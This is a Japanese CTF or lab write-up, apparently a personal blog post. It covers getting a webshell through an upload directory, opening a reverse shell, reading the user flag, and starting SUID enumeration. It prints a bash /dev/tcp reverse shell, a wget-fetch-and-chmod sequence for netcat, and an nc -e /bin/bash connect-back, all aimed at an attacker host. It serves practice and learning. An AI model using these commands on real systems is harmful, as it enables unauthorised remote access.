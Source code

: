 結論は、開発者ツールなどから実際このデータがどこから読みだされているのかを、`HTMLのソースを見て確認`することが重要らしい。  
なんとも知識も知恵も足りなかったようだ。  
改めて確認してみたら、`/usercontents`というディレクトリに格納されていくのが分かった。  
実際にアクセスしてみたら、これまでアップロードしてきたファイルがどっさりのっかっていた。
  
<br>
  
## WebShell 
Webshellが使えるようになったので、若干忘れていたこともあったが、いつも通りに実行できたかな。  
```c
リモート

┌──(kali㉿kali)-[~]
└─$ nc -lvnp 9999
listening on [any] 9999 ...

サーバー
172.20.15.115/usercontents/web1.php?cmd=bash -i >& /dev/tcp/10.15.0.6/9999 ->&1

```  
上手くいかなかったので、`nc`使ってやろうとしたけど、これもうまくいかず。  
ちょっと思案して、`/tmp`になきゃだめなんじゃね。というのと、`権限変えてなくね`と気づく。  
失敗もありつつ、実施して成功したのは以下の順序
```c
リモート
┌──(kali㉿kali)-[~/Desktop]
└─$ python -m http.server 9000　//サーバー立ち上げ
Serving HTTP on 0.0.0.0 port 9000 (http://0.0.0.0:9000/) ...

サーバー
172.20.15.115/usercontents/web1.php?cmd=wget -O /tmp/nc http://10.15.0.6/nc:1234    //wgetで/tmpに配送
172.20.15.115/usercontents/web1.php?cmd=chmod 777 /tmp/nc                           //権限変更
172.20.15.115/usercontents/web1.php?cmd=/tmp/nc -nv 10.15.0.6 9999 -e /bin/bash     //接続

リモート
┌──(kali㉿kali)-[~]
└─$ nc -lvnp 9999   //待ち受け
listening on [any] 9999 ...
connect to [10.15.0.6] from (UNKNOWN) [172.20.15.115] 37990     //接続できた

python3 -c "import pty; pty.spawn('/bin/bash')"     //shell整形
bash-5.2$ find / -name user.txt 2>/dev/null         //findで検索
/var/www/user.txt                                   //発見
cat user.txt                                        //出力
flag{D0nbur4k0_D0nbur4k0}                           //get

```
実際には`nc`実行の際に`/tmp`を忘れたりして一発ではいかなかったが、流れは上記の通り  
  
<br>  
  
## SUID
ここまで来たら権限昇格しろって話しなんだろうけど、手数がないので知ってることからやるしかない。  
とはいってもSUID使ってrootになるぐらいしか思いつかなかったので、取りあえずSUIDが設定されているのを調べる
```c
find / -type f -perm -4000 2>/dev/null
/snap/snapd/21465/usr/lib/snapd/snap-confine
/snap/core18/2812/bin/mount
/snap/core18/2812/bin/ping
/snap/core18/2812/bin/su
/snap/core18/2812/bin/umount
/snap/core18/2812/usr/bin/chfn
/snap/core18/2812/usr/bin/chsh
/snap/core18/2812/usr/bin/gpasswd
```